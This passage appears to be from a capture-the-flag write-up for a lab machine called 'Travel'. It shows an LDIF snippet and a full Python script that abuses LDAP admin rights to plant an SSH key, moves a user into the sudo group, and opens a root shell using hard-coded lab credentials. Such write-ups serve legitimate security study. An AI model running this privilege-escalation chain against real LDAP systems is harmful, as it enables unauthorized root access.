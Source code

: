 ```
add: sshPublicKey
sshPublicKey: ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDJLc86wYuQgi0KxxSMOdpRscUnrVB0Wbd10qhd1HfJcvWV5QSth6WAdWezPhGVqoC62Dm2BzEfOYE3Pg8Ex3jfzinfCoZOJWK9rGC8iV//YbFofsCbzoeXo5OF9IvvJG3NNXx4imC2kB7LxgAlo8rIH+YHmTVmXG+INjALHcBg5z150mH9snGZqVfsteMgBxjK+xJmzXOUunhYX8XAmg8Dqx6o3sI7OZT297cOVQPMFoZJPMYxufHRYWSefUYhphQrist/6XF9PVYdNy1DTdqREzxGXN/RrM+4RSURrBkLTKqsVHI6jc6CdHtBmQwrey2P0d8QDXkILfSAI/lsc6Lj
```
This alone, however, was not enough. These users were still low privileged; but not for long. Our LDAP admin access grants us the permission to modify *any*  attributes of other users, including their GID. We can put them into the `sudo` group (27), then change their password to a known one in order to use `sudo bash`. Another option is to add them to the Docker group (117), and create a Docker container that mounts the root directory. I decided on the sudo method, and wrote this script:
`auto.py`
```
import paramiko
from os import chmod
from Crypto.PublicKey import RSA
from pwn import *
from random import choice
import time

user = choice(["brian", "christopher", "edward", "eugene", "frank", "gloria", "jane", "jerry", "johnny", "louise", "lynik"])
ssh = process(["ssh", "-i", "id_rsa", "{}@travel.htb".format(user)], raw=True)
out = ssh.clean(timeout=5)
print(out)
print("denied" in out)
if not ("denied" in out):
	log.success("Already got access!")
	ssh.sendline("sudo -S bash")
	ssh.sendline("club\n")
	ssh.interactive()
	exit()

key = RSA.generate(2048)
with open("id_rsa", 'wb') as content_file:
    chmod("id_rsa", 0600)
    content_file.write(key.exportKey('PEM'))

pubkey = key.publickey()
with open("id_rsa.pub", 'wb') as content_file:
    content_file.write(pubkey.exportKey('OpenSSH'))

log.info("Keypair created")
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect('travel.htb', username='lynik-admin', password='1stepcloser')
log.info("Low-priv SSH conn up")
ldif = open('ldiftemplate','r').read()
ldif = ldif.replace('KEY', pubkey.exportKey('OpenSSH')).replace('USER', user)
with open('ldif','w') as f:
	f.write(ldif)

client.exec_command('mkdir /tmp/.club')
ftp = client.open_sftp()
ftp.put('ldif','/tmp/.club/ldif')
log.info("Uploaded ldif")
client.exec_command('ldapmodify -a -x -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -H ldap://ldap.travel.htb -f /tmp/.club/ldif')
log.success("Payload activated!")
time.sleep(3)
ssh = process(["ssh", "-i", "id_rsa", "{}@travel.htb".format(user)], raw=True)
ssh.sendline("sudo -S bash")
ssh.sendline("club")
```